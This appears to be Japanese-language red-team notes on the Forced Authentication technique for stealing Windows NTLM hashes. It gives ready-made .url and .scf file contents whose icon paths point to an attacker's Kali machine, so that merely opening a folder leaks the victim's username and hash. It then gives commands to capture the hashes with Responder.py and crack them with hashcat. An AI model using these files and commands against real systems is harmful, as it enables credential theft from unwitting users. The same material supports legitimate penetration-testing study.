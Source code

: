 # Credential Access

## Forced Authentication

### 概要

- NTLM認証で利用されるNTLMハッシュの取得
- リンクを踏ませる(HTMl埋め込み)
- リンクファイルを標的端末に配置、エクスプローラー等が配置したファイルを参照することで認証情報を送信(ファイルを実行する必要なし)

#### 攻撃手法

- SMBプロトコルでリモートリソースへアクセスする際、まずNTLM認証を試みる。
- 認証を行う際にNTLMハッシュ情報が自動的にアクセス先に送信される。
- C2へアクセスするようなリンクファイル等を配置してアクセスさせる。
- C2に送信されるNTLMハッシュを受け取れるプログラムが動いていれば標的のNTLMハッシュ値を取得できる。

#### 手順(LINKファイル)

- 下記の内容を記述した .urlファイルを標的の端末に配置

``` js
    [InternetShortcut]
    URL=whatever
    WorkingDirectory=whatever
    IconFile=¥¥[kaliのIPアドレス]¥%USERNAME%.icon
    IconIndex=1
```

- sfcファイルも使える

``` shell
    [shell]
    Command=2
    IconFile=\\[kaliのIPアドレス]\[共有ファルダ]\nc.ico
    [Taskbar]
    Command=ToggleDesktop
```

> 他にもRTF、XMLとかも使えるらしい

- kaliでResponder.pyを起動

``` shell
    Python2 Responder.py -I eth1
```

リンクファイルのあるフォルダを開くと IP、Username、NTLMハッシュがkaliに送信される。

- 受信したNTLMハッシュをテキストファイルにコピー
- kaliでhashcatを使用してハッシュの解析

```shell
    hashcat -m 5600 -a 0 [hashファイル] /usr/share/wordlists/rockyou.txt --force --potfile-disable
    # -mはハッシュタイプ 5600はNTLMv2
    # -aはアタックモード 0は辞書攻撃 3でブルートフォース
    # --potfile-disable 解析結果をpotファイルに書き込むのを無視
```

[hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)
